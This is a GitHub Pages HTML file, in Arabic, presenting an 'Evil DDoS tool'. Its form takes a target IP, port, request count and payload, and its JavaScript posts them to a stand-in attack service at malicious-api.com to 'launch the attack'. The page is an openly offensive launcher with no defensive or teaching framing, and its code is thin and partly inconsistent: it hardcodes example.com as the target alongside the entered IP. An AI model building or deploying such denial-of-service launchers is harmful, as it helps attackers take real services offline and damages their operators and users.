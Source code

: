 # gtav333.github.io
<html>
<head>
    <title>أداة DDoS الشريرة</title>
    <script>
        function launchAttack() {
            // استبدل عنوان الهدف بهذا المثال
            const target = 'http://example.com';

            // إعداد العناصر
            const ipInput = document.getElementById('ip');
            const portInput = document.getElementById('port');
            const numRequestsInput = document.getElementById('numRequests');
            const payloadInput = document.getElementById('payload');
            const attackButton = document.getElementById('attack');
            const resultDiv = document.getElementById('result');

            // تحقق من صحة الإدخالات
            if (!ipInput.value || !portInput.value || !numRequestsInput.value || !payloadInput.value) {
                resultDiv.innerHTML = 'يرجى ملء جميع الحقول';
                return;
            }

            // قم بتكوين إعدادات الهجوم
            const options = {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    target: target,
                    ip: ipInput.value,
                    port: portInput.value,
                    numRequests: numRequestsInput.value,
                    payload: payloadInput.value
                })
            };

            // إطلاق الهجوم
            fetch('https://malicious-api.com/ddos', options)
                .then(response => response.json())
                .then(data => {
                    if (data.success) {
                        resultDiv.innerHTML = 'تم إطلاق الهجوم بنجاح!';
                    } else {
                        resultDiv.innerHTML = 'حدث خطأ أثناء الهجوم. حاول مرة أخرى';
                    }
                })
                .catch(error => {
                    resultDiv.innerHTML = 'حدث خطأ أثناء الاتصال بالخادم.';
                });
        }
    </script>
</head>
<body>
    <h1>أداة DDoS الشريرة</h1>
    <label for="ip">IP الهدف:</label>
    <input type="text" id="ip" placeholder="192.168.1.1"><br>
    <label for="port">المنفذ:</label>
    <input type="text" id="port" placeholder="80"><br>
    <label for="numRequests">عدد الطلبات:</label>
    <input type="text" id="numRequests" placeholder="10000"><br>
    <label for="payload"> الحمولة:</label>
    <input type="text" id="payload" placeholder="مثال: أهلاً بالعالم"><br>
    <button id="attack" onclick="launchAttack()">إطلاق الهجوم</button>
    <div id="result"></div>
</body>
</html>
